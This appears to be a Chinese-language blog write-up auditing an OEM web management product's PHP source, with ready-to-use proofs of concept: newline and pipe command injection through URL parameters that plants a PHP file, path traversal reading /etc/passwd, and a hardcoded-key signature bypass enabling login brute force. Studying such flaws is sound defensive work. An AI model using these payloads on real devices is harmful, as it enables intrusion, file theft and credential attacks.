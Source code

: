 

# 某 oem 产品审计学习

比较老的洞了，最近看到有人交了 rce, 正好学习下，应该是多家 oem 的产品

- - -

## [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C1)命令执行 1

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/webui/?g=aaa_portal_auth_local_submit&suffix=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111112.php&bkg_flag=0<br>``` |

全局搜索 `aaa_portal_auth_local_submit` 看下是哪里的问题

定位到 `webui/modules/aaa/portal_auth.mds`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>70<br>71<br>72<br>73<br>74<br>``` | ```php<br>//----------------------------------------------------------------------------------本地认证-----------------------------------<br>if($get_url_param == "aaa_portal_auth_local_submit"){<br>	<br>	$suffix = $_GET['suffix'];<br>	$config = file_get_contents($portal_catalog."/config.txt");<br>	$config_arr = json_decode($config,true);<br><br>	$tab_name = $_GET['tab_name'];<br>	$welcome_word = $_GET['welcome_word'];<br>	$btn_color = $_GET['btn_color'];<br><br>	//基本配置<br>	$baseFlag = $_GET['baseFlag'];<br>	if(gettype($baseFlag) != 'undefined' && $baseFlag == 1){<br><br>		$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br><br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_base"}';<br>		return;<br>		<br>	}<br>	//logo<br>	if($_GET['bkg_flag'] == 0){<br>		<br>		if($_FILES['local_logo_file']['error'] == UPLOAD_ERR_OK){<br><br>			$tmp_name = $portal_catalog.'/local/images/localLogo_tmp'.$suffix;<br>			$final_name = $portal_catalog.'/local/images/localLogo'.$suffix;<br>			$type = 'local_logo_file';<br><br>			if(!checkFileSize($type,$tmp_name,$final_name,$uploadFileSize)){<br>				return;<br>			}<br>		}<br><br>		$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br><br>		$config_arr[local][local_logo_pic] = $_FILES['local_logo_file']['name'];<br><br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_logo"}';<br>		return;<br>		<br>	}else{ //bkg<br><br>		//如果tab_name不为空,表示此时需同步修改tab_name等内容<br>		if($tab_name){<br>			$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br>		}<br>		if($_FILES['local_bkg_file']['error'] == UPLOAD_ERR_OK){<br>			$tmp_name = $portal_catalog.'/local/images/localBkg_tmp'.$suffix;<br>			$final_name = $portal_catalog.'/local/images/localBkg'.$suffix;<br>			$type = 'local_bkg_file';<br>			<br>		if(!checkFileSize($type,$tmp_name,$final_name,$uploadFileSize)){<br>				return;<br>			}<br>		}<br>		$config_arr[local][local_bkg_pic] = $_FILES['local_bkg_file']['name'];<br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_bkg"}';<br>		return;<br>	}<br>}<br>``` |

看下 suffix 参数被传入到了哪里，为什么会触发命令执行

suffix 先后被赋值给了 `tmp_name`,`final_name`, 然后这 2 个参数被传给了 `checkFileSize` 函数

看下 `checkFileSize` 函数

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```php<br>function checkFileSize($type,$tmp_name,$final_name,$uploadFileSize){<br>	move_uploaded_file($_FILES[$type]['tmp_name'],$tmp_name);<br><br>	if(filesize($tmp_name) - $uploadFileSize > 0){<br>		exec('rm '.$tmp_name);<br>		echo '{"warning":"图片大小超过限制","type":"'.$type.'"}';<br>		return false;<br>	}else{<br>		exec('mv '.$tmp_name.' '.$final_name);<br>		return true;<br>	}<br>}<br>``` |

很好，看来是危险函数 exec 执行了我们的命令

这里 poc 的 suffix 值是

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```markdown<br>换行符<br>echo 'test2' >> /tmp/success2<br><br>%0Aecho%20%27test2%27%20%3E%3E%20%2Ftmp%2Fsuccess2<br>``` |

[![](assets/1710207733-773cf16c67ba31fcd99d0a4518f706d2.png)](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled.png)

[![](assets/1710207733-664065e1ca78cac246d8e20398857b39.png)](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%201.png)

我试了下，用这个也行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>/tmp/ttt \| echo 'test3' >> /tmp/success3<br><br>%2Ftmp%2Fttt%20%7C%7C%20echo%20%27test3%27%20%3E%3E%20%2Ftmp%2Fsuccess3<br>``` |

[![](assets/1710207733-ac353b77fc9381f90b80081df8308535.png)](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%202.png)

[![](assets/1710207733-969a1fd8a5a4a3b561dae576baea0ccb.png)](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%203.png)

不过可以看到是有换行符的效果更好

- - -

## [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C2)命令执行 2

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111111.php%0a<br>``` |

全局搜索 `aaa_portal_auth_local_submit`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```php<br>if($get_url_param == "aaa_portal_auth_config_reset"){<br>	$type = $_GET['type'];<br>	$logo_type = $type.'_logo_pic';<br>	$bkg_type = $type.'_bkg_pic';<br><br>	$config = file_get_contents($portal_catalog."/config.txt");<br>	$config_arr = json_decode($config,true);<br><br>	$config_dft = file_get_contents($portal_catalog."/default_config.txt");<br>	$config_dft_arr = json_decode($config_dft,true);<br>	<br>	if($type == 'adv'){<br>		$config_arr[diff] = $config_dft_arr[diff];<br>	}<br>	$config_arr[$type] = $config_dft_arr[$type];<br><br>	//删除图片<br>	exec('rm '.$portal_catalog.'/'.$type.'/images/'.$type.'*');<br><br>	$new_config = json_encode($config_arr);<br>	file_put_contents($portal_catalog."/config.txt",$new_config);<br>	backupAuthFile($type);<br>	echo '{"reset":"'.$type.'"}';<br>}<br>``` |

明晃晃的 exec , 有点过分的

- - -

## [](#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)任意文件读取

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```yaml<br>requests:<br>  - method: GET<br>    path:<br>      - "{{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_dia_data_check&file_name=../../../../../../../../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_corefile_sysinfo_download&name=../../../../../../../../etc/passwd"<br>``` |

先全局搜下 `sys_dia_data_down`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```php<br>if( $get_url_param == 'sys_dia_data_down'){<br>	// if($_POST['file_name']!=null) $param['file_name'] = formatpost($_POST['file_name']);<br><br>	$fname = "/mnt/".$_GET['file_name'];	<br>	$data = file_get_contents($fname);<br>	Header("Pragma: public");<br>	Header("Cache-Control: private");<br>	Header("Content-type: text/plain");<br>	Header("Accept-Ranges: bytes");<br>	Header("Content-Length: " . strlen($data));<br>	Header("Content-Disposition: attachment; filename=".$_GET['file_name'] );<br>	ob_clean();<br>	echo $data;<br>	exit();<br><br>}<br>``` |

可以看到 file\_name 参数没有被过滤直接被 file\_get\_contents 函数所读取了，导致的任意文件读取

不过 file\_get\_contents 函数可以造成 ssrf, 这里由于前面拼接了 /mnt/ , 所以不好进行 ssrf

- - -

## [](#%E7%BB%95%E8%BF%87%E9%AA%8C%E8%AF%81%E7%A0%81%E7%88%86%E7%A0%B4)绕过验证码爆破

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```php<br>/remote_auth.php?user=admin&pwd=admin&sign=ba84d9dd91eb304aca57f0a8f052623e<br>``` |

这个 sign 从哪来，其实就硬编码在 `/usr/local/webui/remote_auth.php` 中

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br>if($_GET['user']!=null) $usr = formatget($_GET['user']);<br>if($_GET['pwd']!=null) $pwd = formatget($_GET['pwd']);<br>if($_GET['sign']!=null) $sign = formatget($_GET['sign']);<br>$key= 'saplingos!@#$%^&*';//这个key你们协商后保存一致即可<br>//ba84d9dd91eb304aca57f0a8f052623e<br>if(empty($usr)){<br>	die('user_null');<br>}<br>else if(empty($pwd)){<br>	die('pwd_null');<br>}<br>else if (!$sign){<br>	die('sign_null');<br>}<br>else if ($sign != md5($key)){<br>	die('sign_error');<br>}<br>else{<br>	if (isset($usr, $pwd)) {<br>		LoginHandler::login($usr, $pwd, $num,'',$remote_auth = true);<br>	}<br>	$fail_msg = '';<br>	if (LoginHandler::isLoginFail()) {<br>		$fail_msg = $_SESSION[ERROR_STR];<br>		if (strlen($fail_msg) <= 0) {<br>			$fail_msg = LocalUtil::getCommonResource('login_failed');<br>		}<br>		die($fail_msg);<br>	}<br>}<br>``` |

我们可以通过任意文件读取漏洞读取 key, 然后进行爆破
